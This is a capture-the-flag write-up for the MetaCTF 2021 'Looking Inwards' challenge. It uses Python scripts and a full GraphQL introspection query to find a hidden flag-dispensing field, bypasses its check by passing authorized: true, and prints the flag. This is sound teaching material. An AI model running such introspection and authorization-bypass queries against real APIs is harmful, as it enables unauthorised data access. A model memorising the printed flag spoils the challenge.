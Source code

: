 # MetaCTF 2021

## Looking Inwards (300pts)

### Description:

> It's always fun to take a moment of introspection, in this case not about oneself, but about our field (development/security). For example when it comes to API design, first there were SOAP endpoints primarily based on XML. Then as Web 2.0 came along, RESTful APIs became all the rage. Recently, technologies like GraphQL began to gain traction.

> With new technologies, though, come new classes of attacks. Check out this basic [GraphQL API server](https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php). To get you started, here's one cool thing it can do: If you send it a `query` in the form of `echo(message: "message_here")`, it will respond with what you said. Can you get it to give you the flag?

### Included Files:

> No files provided

### Step 1 - Sending a Query to the GraphQL API

Before we could attempt to find the flag, first we wanted to get a valid response back from the GraphQL server using the query `echo(message: "message_here")` which was provided in the challenge description.

We used the following [tutorial](https://towardsdatascience.com/connecting-to-a-graphql-api-using-python-246dda927840) from `Towards Data Science` which walked us through how to send a GraphQL request using Python. Below allowed us to send that query.

```python
import requests
import pandas as pd

query = '''query {
	echo(message: "message_here")
}'''

url = 'https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php'
r = requests.post(url, json={'query': query})
print(r.text)
```

Output:

```JSON
{"data":{"echo":"You said: message_here"}}
```

### Step 2 - Find Other Endpoints on GraphQL API

After a bit of research, we learned we can use a technique called `introspection` on GraphQL APIs to find other endpoints. Using the following [tutorial](https://blog.yeswehack.com/yeswerhackers/how-exploit-graphql-endpoint-bug-bounty/) from `Yes We Hack`, they included the following request:

```
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

After putting this request into our script from the previous step, we found the following in the output:

```JSON
{
    "name": "super_super_secret_flag_dispenser",
    "description": null,
    "args": [{
        "name": "authorized",
        "description": null,
        "type": {
            "kind": "NON_NULL",
            "name": null,
            "ofType": {
                "kind": "SCALAR",
                "name": "Boolean",
                "ofType": null
            }
        },
        "defaultValue": null
    }],
    "type": {
        "kind": "NON_NULL",
        "name": null,
        "ofType": {
            "kind": "SCALAR",
            "name": "String",
            "ofType": null
        }
    },
    "isDeprecated": false,
    "deprecationReason": null
    }],
    "inputFields": null,
    "interfaces": [],
    "enumValues": null,
    "possibleTypes": null

}
```
This shows that there is an endpoint called `super_super_secret_flag_dispenser` that takes in a boolean called `authorized`.

## Step 3 - Retrieving the Flag

Using the information from the previous step, we crafted the following query:

```
query {
    super_super_secret_flag_dispenser(authorized: true)
}
```

Our final script looks like this:

```Python
import requests
import pandas as pd

query = '''query{
    super_super_secret_flag_dispenser(authorized: true)
}'''

url = 'https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php'
r = requests.post(url, json={'query': query})
print(r.text)
```

<details>
<summary> Output (contains the flag) </summary>
<p>
{"data":{"super_super_secret_flag_dispenser":"MetaCTF{look_deep_and_who_knows_what_you_might_find}"}}
</p>
</details>

<details>
    <summary> Flag Spoiler </summary>
    MetaCTF{look_deep_and_who_knows_what_you_might_find}
</details>

## Learning Takeaways
We can use introspection in order to discover endpoints of a GraphQL API. GraphQL APIs can disable introspection and it is recommended practice for production. Well-made documentation is preferred. Python is a powerful tool for completing GraphQL challenges in the future.
